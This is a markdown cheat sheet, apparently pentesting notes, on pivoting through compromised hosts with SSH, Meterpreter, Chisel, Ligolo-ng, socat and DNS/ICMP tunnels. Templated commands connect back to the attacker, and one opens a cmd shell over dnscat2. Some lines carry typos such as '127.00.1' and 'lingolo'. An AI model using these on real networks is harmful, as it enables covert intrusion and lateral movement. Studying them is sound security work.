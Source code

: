 # Info
- Port Forward: Forward service internal to external (Mainly combined with bindshell or to exfiltrate the inside services)
- Remote/Reverse Port Forward: Forward service external to internal (Mainly combined with reverseshell)
- Dynamic port forward: Attacker can access any internal machines that the pivot can reach (SOCKS Proxy)
- Tunneling: Encapsulating one protocol inside another to bypass firewalls or NAT.
- Lateral Movement/Pivoting:
	- Lateral Movement: Moving within the same network.
	- Pivoting: Accessing other networks by crossing boundaries.
#### Definitions
- `attacker`: Attacker machine (on the external network)
- `pivot`: Pivot machine (has two NICs for external and internal networks, or one NIC but configured to route traffic between them).
- `target`:Target machine (on the internal network)
# Port Forward
#### SSH
- **PortForward Pivot/Target Port**: `ssh -L <attacker_port>:<pivot_internalip-localhost/target_ip>:<pivot_port/target_port> <username>@<pivot_ip>`

#### Meterpreter (Relay traffic)
- **Info:** Ensuring that your session is persistent on the pivot; once you lose it, port forwarding will disappear.
- **PortForward Pivot Port:**  `meterpreter> portfwd add -l <pivot_listenport> -p <pivot_port> -r <pivot_internalip-localhost>`
- **PortForward Target Port**: `meterpreter> portfwd add -l <pivot_listenport> -p <target_port> -r <target_ip>`

#### Netsh (Relay Traffic - Windows only)
- **Info:** High privileges (Administrator or higher) are required, but while it's persistent, it is easy to detect.
	- Use it on The Pivot.
- **PortForward Pivot Port:**  `netsh interface portproxy add v4tov4 listenport=<pivot_listenport> listenaddress=<pivot_externalip> connectport=<pivot_port> connectaddress=<<pivot_internalip/localhost>`
- **PortForward Target Port**: `netsh interface portproxy add v4tov4 listenport=<pivot_listenport> listenaddress=<pivot_externalip> connectport=<target_port> connectaddress=<target_ip>`
#### Socat (Relay traffic  - Linux)
-  **PortForward Pivot Port:** `socat TCP4-LISTEN:<pivot_listenport>,fork TCP4:<pivot_internalip-localhost>:<pivot_port>`
-  **PortForward Target Port:**`socat TCP4-LISTEN:<pivot_listenport>,fork TCP4:<target_ip>:<target_port>`
#### Chisel
- **Info:** Using a server and client, similar to SSH. The server (usually the pivot or attacker) has to open a service port (I will call it `connectport`).
- **PortForward Pivot Port:**
	- Pivot: `chisel server --port <pivot_connectport>`
	- Attacker: `chisel client <pivot_externalip>:<pivot_connectport> <attacker_port>:<pivot_internalip-localhost>:<pivot_port>`
- **PortForward Target Port:**
	- Pivot: `chisel server --port <pivot_connectport>`
	- Attacker: `chisel client <pivot_externalip>:<pivot_connectport> <attacker_port>:<target_ip>:<target_port>`
- **Using Socks**
# Remote/Reverse Port Forward
#### SSH
- `ssh -R <pivot_listenport>:<attacker_ip>:<attacker_port> <username>@<pivot_externalip> -vN`
	- Windows - putty.exe: `plink.exe ssh -R <pivot_listenport>:<attacker_ip>:<attacker_port> <username>@<pivot_externalip> -vN`
#### Meterpreter
- `meterpreter> portfwd add -l <pivot_listenport> -p <attacker_port> -r <attacker_ip>`
#### Netsh
- `netsh interface portproxy add v4tov4 listenport=<pivot_listenport> listenaddress=<pivot_externalip> connectport=<attacker_port> connectaddress=<attacker_ip>`
#### Socat
- `socat TCP4-LISTEN:<pivot_listenport>,fork TCP4:<attacker_ip>:<attacker_port>`
#### Chisel
- Attacker: `chisel server --port <pivot_connectport> --reverse`
- Pivot: `chisel client <pivot_externalip>:<pivot_connectport> R:<attacker_port>:<pivot_internalip>:<pivot_listenport>`

# Dynamic Port Forward
- **Info:** Requires setting up traffic at the session layer using SOCKS on the attacker machine, because the traffic is tunnel-based and only operates at the session layer.
## Settings up Attacker host
##### **Linux:**
- Using `proxychains`
- edit proxychain.conf 
```bash
vim /etc/proxychains.conf

# Create port proxy - if don't use placing # front of the line
socks4 127.0.0.1 <attacker_portproxy>
# Socks5 when using chisel
socks5 127.00.1 <attacker_portproxy> 

# Using proxy by: proxychains <command> [<target_ip>]
```
##### **Windows**
- Using Proxifier![[Pasted image 20250420221113.png]]
##### **Alternative method:**
- **Sshuttle:** python tool, pivot over SSH.
	- `sshuttle -r <username>:<pivot_externalip> <target_iprange>/<subnet> -v`
## Run Dynamic PortForward
#### SSH
- `ssh -D <attacker_portproxy> <username>@<pivot_externalip>`
#### Meterpreter
- `msf6> use auxiliary/server/socks_proxy`
	- `run SRVPORT=<attacker_portproxy> SRVHOST=0.0.0.0 version=<4a/5a>`
- Option 1: `msf6> use post/multi/manage/autoroute`
	- `set SESSION <num>` (this session is pivot session)
	- `run SUBNET=<target_iprange>/<subnet>`
- Option 2: `meterpreter> run autoroute -s <target_iprange>/<subnet>`
#### Chisel
- Pivot: `chisel server -p <pivot_connectport> --socks5`
- Attacker: `chisel client -v <pivot_externalip>:<pivot_connectport> <attacker_ip - localhost>:socks`
#### Ligolo-ng (Without proxyport)
- Attacker: `sudo ip tuntap add user <username> mode tun ligolo && sudo ip link set lingolo up`
	- `./proxy -selfcert -laddr 0.0.0.0:<attacker_connectport>`
		- `ligolo-ng >> session`: list session
			- choose the session.
		- `ligolo-ng >> ifconfig`: list net interface pivot.  
		- `sudo ip route add <target_iprange>/<subnet> dev ligolo`
- Pivot: `.\agent -connect <attacker_ip>:<attaker_port> -ignore-cert`
- **Port Forward and Remote Port Forward:** `listener_add --addr <pivot_externalip>:<pivot_listenport> --to <attacker/target_ip>:<attacker/target_port>`
#### Rpivot
- Attacker `python2.7 server.py --proxy-port <attacker_portproxy> --server-port <attacker_connectport> --server-ip 0.0.0.0`
- `python2.7 client.py --server-ip <attacker_ip> --server-port <attacker_connectport>`
# Tunneling
#### DNScat2
- Attacker: `sudo ruby dnscat2.rb --dnshost=<attacker_ip>,port=53,domain=<domain_name> --no-cache`
	- Copy the secret
- [dns2powershell](https://github.com/lukebaggett/dnscat2-powershell)
- Pivot: `Import-Module .\dnscat2.ps1`
	- `Start-Dnscat2 -DNSserver <attacker_ip> -Domain <domain_name> -PreSharedSecret <secret> -Exec cmd`
#### PTunnel-ng
- Attacker: `sudo ./ptunnel-ng -s`
- Pivot: `sudo ./ptunnel-ng -p <attacker_ip> -lp <pivot_port> -da <target_ip> -dp <target_port>`
#### SocksOverRDP
1. [SocksOverRDP x64 Binaries](https://github.com/nccgroup/SocksOverRDP/releases)
2. [Proxifier Portable Binary](https://www.proxifier.com/download/#win-tab)
- Pivot: `SocksOverRDP-Server.exe`
- Attacker: `Connect RDP Pivot (Experience Modem) -> SocksOverRDP-Client.exe 127.0.0.1 <attacker_portproxy>`
	- OR  load file DLL (Windows): `regsvr32.exe SocksOverRDP-Plugin.dll` (portproxy default 1080)

